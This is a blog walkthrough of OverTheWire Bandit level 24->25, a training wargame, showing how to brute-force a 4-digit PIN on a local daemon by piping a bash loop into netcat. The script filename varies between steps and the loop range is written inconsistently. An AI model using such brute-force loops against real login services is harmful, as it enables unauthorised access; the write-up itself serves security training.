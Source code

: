 ```yaml
---
title: Overthewire Bandit Level 24-> 25
date: '2022-01-07 22:05:00'
author: Michael
categories: [overthewire-bandit]
tags: [overthewire, bandit]
---
```


Solution for the Overthewire.org [Bandit level 24 -> 25](https://overthewire.org/wargames/bandit/bandit25.html){:target="\_blank"}

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 23 -> 24]({% post_url 2021-12-06-bandit23-24 %}). 

username: `bandit24` 

```ssh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

For this challenge we need to send a password to a specific port on localhost, we have done this before on previous levels but the difference this time is that we need to send a 4 digit pincode with the password.  
Unfortunately we do not know what the pincode is so we will need to try all possible combinations until we get the right one.

The first thing to do is to connect to port 30002 and see what it is doing.  
We can use netcat to connect to port 30002 on localhost.

```console
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. 
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTr########################## 1234
Wrong! Please enter the correct pincode. Try again.

Fail! You did not supply enough data. Try again.
UoMYTr 124
Wrong! Please enter the correct current password. Try again.

bandit24@bandit:~$
```

What we can see is that the daemon running on port 30002 wants the data entered in a specific format.  
```<BANDIT24 PASSWORD> <4 DIGIT PIN>```

The daemon first checks if the password is correct before checking the pincode.  
If the password is incorrect we get a message stating that the password was incorrect. The pincode is not checked.  
If the password is correct and the pincode is incorrect we get a different message stating the pincode is incorrect.
Since we are using the same password used to login to this level we should not see the password incorrect message.

The daemon wants a 4 digit pincode so we need to check all pincodes from 0000 to 9999 to find the correct one.  
Doing this by hand would take a long time (10,000 pincodes to check). It is more efficient to create a program to do this for us.


First lets create a directory in `/tmp` to work from

```console
bandit24@bandit:~$ mkdir /tmp/work_dir
bandit24@bandit:~$ cd /tmp/work_dir
bandit24@bandit:/tmp/work_dir$
```

Now to create a bash script to create all 10,000 password pincode combinations we need to test.
I used vim to create a file try_passwords.sh and wrote this code into it.

```bash
#!/bin/bash

for i in {000..9999}
do
    echo UoMYTr************************** $i 
done
```

The code will create all 4 digit pincodes we need.
Next we need to give the file execute permissions

```console
bandit24@bandit:/tmp/work_dir$ chmod +x try_password.sh
```

Now all thats left is to run the bash script and send it's output to netcat.  
This will run for a while as it is trying 10,000 pincodes but eventually you will see the correct message and get the password for bandit25.

```console
bandit24@bandit:/tmp/work_dir$ ./try_pass.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O5##########################

Exiting.
bandit24@bandit:/tmp/work_dir$
```